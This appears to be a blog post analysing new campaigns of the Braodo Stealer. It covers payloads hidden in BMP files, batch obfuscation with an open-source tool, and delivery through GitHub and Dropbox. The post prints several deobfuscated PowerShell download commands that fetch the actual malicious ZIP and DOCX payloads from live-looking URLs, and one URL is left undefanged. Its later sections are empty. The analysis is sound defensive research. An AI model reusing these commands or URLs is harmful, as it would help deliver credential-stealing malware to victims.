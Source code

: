 ```yaml
---
title:  "Fresh Infections Of Braodo Stealer With Updated Techniques"
layout: post
categories: malware-analysis
---
```


## Contents

- Background.
- Technical Analysis.
    - Abusing .bmp file format.
    - Encoding and Obfuscation.
    - Abusing Dropbox services.
	- Abusing WHL packages. 
- IOCs.
- Conclusion.

## Background


Hi readers, hope you enjoyed my last blog on Braodo Stealer, as a newbie and as I'm just getting started I have decided to track the same, so recently I found that Braodo Stealer is back with a bunch of changes on their arsenal , which includes adding Base64 encoding along with renaming variable names and then abusing an open source obfuscator known as Abobas-Obfuscator. Well, the last but not the least that's using different file formats like .bmp and abusing Dropbox services for payload delivery.

## Technical Analysis.

In this phase, we will know different methods that this stealer uses to download the payload from various sources and executes the malicious python file. 


### Abusing .bmp file format.

One of the recent developments of Braodo Stealer's arsenal has been abusing bmp format for initial infections.

![image](https://github.com/user-attachments/assets/eb044983-e72d-46d3-a6a1-2701f87ea7f7)


So, we can see that there is encoded garbage blob present inside the bmp payload and the actual script which is responsible for downloading the final payload from Github which is exactly the same just like the previous campaigns with just different Github accounts downloading the final Python script.

### Encoding and obfuscation.

Another interesting development among the stealer arsenal is it has been using an open source obfuscator,known as [Abobus obfuscator](https://github.com/EscaLag/Abobus-obfuscator/blob/main/AbobusObf.py) as we found the name of the obfuscator as it is present in one of the sample with the name of the author.

![image](https://github.com/user-attachments/assets/0d2dae90-19d0-4d1d-b143-6ae11d6843ee)

The way this obfuscator works is by adding garbage values to the batch script then performing character encoding and by changing the cases of the alphabets in a random manner and many such pseduo obfuscation techniques . The way the sample deobfuscates and runs in memory is by initially changing the code page by using `chcp` windows utility and chnaging the code page to English which further faciliates the execution of the malicious batch script which then downloads the ZIP payload. As this is an open source obfuscator it was quite easy to understand and perform the deobfuscation.

The extracted config is as follows:

```
[net.servicepointmanager]::securityprotocol = [net.securityprotocoltype]::tls12
(new-object -typename system.net.webclient).downloadfile("hxxps://github.com/LoneNone1807/abcxyz/raw/main/abcxyz.zip", "C:\\Users\\Public\\25350.zip")

```
 
### Abusing Dropbox services.

As we know that the primary technique of Braodo stealer is to store the final payload over Github, but recently in one of the campaigns which was obfuscated with Abobus obfuscator was dropping a document as a lure . The document was mainly focused on online marketing of shoes and similar marketing gimmicks were present. 


![image](https://github.com/user-attachments/assets/7a8ed849-736e-4b87-92aa-3f92b0f4ca36)

So , once the lure was popped up on the screen, I de-obfuscated and found out that this campaign is using Dropbox services to download the payload and also adding a registry key as persistance. The extracted configs are as follows:

```
[net.servicepointmanager]::securityprotocol = [net.securityprotocoltype]::tls12
(new-object -typename system.net.webclient).downloadfile("hxxps://www.dropbox.com/scl/fi/mkx2tii0ud0i6ugpbbjh6/Product_Marketing_and_Brand_Marketing_Campaigns0909.docx?rlkey=4gqc2cpjo6kp5iltdjevlbxzv&st=50y5pfp4&dl=1", "C:\\Users\\Admin\\AppData\\Local\\Temp\\\\Product_Marketing_and_Brand_Marketing_Campaigns0909.docx")
```

```
[net.servicepointmanager]::securityprotocol = [net.securityprotocoltype]::tls12
(new-object -typename system.net.webclient).downloadfile("https://www.dropbox.com/scl/fi/0qh04if44j5q056ehruij/tn0909.zip?rlkey=f9zmunjbhjdmsuh7by9bp4wf1&st=ffsvc7c8&dl=1", "C:\\Users\\Public\\Document.zip")
```

### Abusing whl package

## Conclusion.



